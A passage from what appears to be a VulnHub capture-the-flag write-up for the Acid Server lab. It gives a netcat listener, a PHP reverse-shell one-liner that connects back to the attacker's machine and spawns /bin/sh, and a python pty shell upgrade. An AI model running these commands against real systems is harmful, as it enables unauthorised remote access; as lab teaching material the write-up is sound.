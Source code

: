 ### Get Reverse Shell

As the page title says "**Reverse Kunfu**", it is the hint towards **Reverse Shell**. So without any delay, run a listener **(nc -nvlp 8000)** on the attacking machine and enter the following command in the page to take the reverse shell.

```bash
php -r '$sock=fsockopen("192.168.225.139",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Note:** Replace the IP and listener port with yours.

<center><img src="/assets/img/vulnhub/acid-server/asv12.png" alt="PHP Reverse Shell"></center>
<br>
I got the shell with **_www-data_** user. Also, this is a non-interactive shell and we need an interactive one. Without interaction, the OS cannot ask for password and **su** won't work.

<hr>

### Upgrade to Interactive Shell
Run the following command to get the interactive shell.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

<center><img src="/assets/img/vulnhub/acid-server/asv13.png" alt="Interactive Shell"></center>

